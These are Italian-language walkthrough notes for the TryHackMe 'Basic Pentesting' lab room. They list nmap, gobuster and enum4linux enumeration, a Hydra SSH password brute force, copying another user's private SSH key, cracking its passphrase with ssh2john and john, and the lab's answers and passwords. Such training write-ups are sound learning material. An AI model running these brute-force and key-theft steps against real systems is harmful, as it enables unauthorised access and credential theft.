 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/basicpentestingjt

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.242.6 -oG risultatoscan
```

```
sudo nmap -sC -sV -p22,80,139,445,8009,8080 10.10.242.6 -oN risultatoscan2
```

```
gobuster dir -u http://10.10.242.6:80 -w /usr/share/wordlists/dirb/common.txt -t50
```

```
nmap -p 80 --script http-enum 10.10.242.6
```

```
enum4linux -a 10.10.242.6
```

trovati due utenti
```
jan
```
e
```
kay
```
oppure si possono trovare tramite
```
smbclient //10.10.242.6/anonymous
```

```
more staff.txt
```
==Qual'è username?==
```
jan
```

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.242.6 -t 4 ssh -I -F -V
```
trovata password !
==Qual è la password?==
```
armando
```

==Quale servizio utilizzi per accedere al server (risposta in forma abbreviata e scritta tutta in maiuscolo)?==
```
ssh jan@10.10.197.4
```

```
cd /home/kali/enumerazione/
```

```
scp LinEnum.sh jan@10.10.197.4:/tmp
```

```
cd /tmp
```

```
./LinEnum.sh
```

Vai su _/home/kay/.ssh/ e copia id_rsa nel computer dell'attaccante per effettuare attacchi brute force._

```
cd /home/kay/.ssh/
```

```
scp jan@10.10.197.4:"/home/kay/.ssh/id_rsa" "$HOME/Downloads"
```
	(scaricare da shell non root)
da attaccante
```
cd /home/kali/Downloads
```

```
ssh  kay@10.10.197.4 id_rsa
```
	(non va)

Attacco brute force su id_rsa tramite ssh2john

```
chmod +x id_rsa
```

trasformiamo la chiave rsa in hash e la andiamo a decriptare sempre con john==
```
ssh2john id_rsa > id_rsa.hash
```

```
john -wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

```
john --show id_rsa.hash
```

password
```
beeswax
```

```
ssh kay@10.10.197.4
```

```
sudo ssh -i id_rsa kay@10.10.197.4
```

```
cat pass.bak
```

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
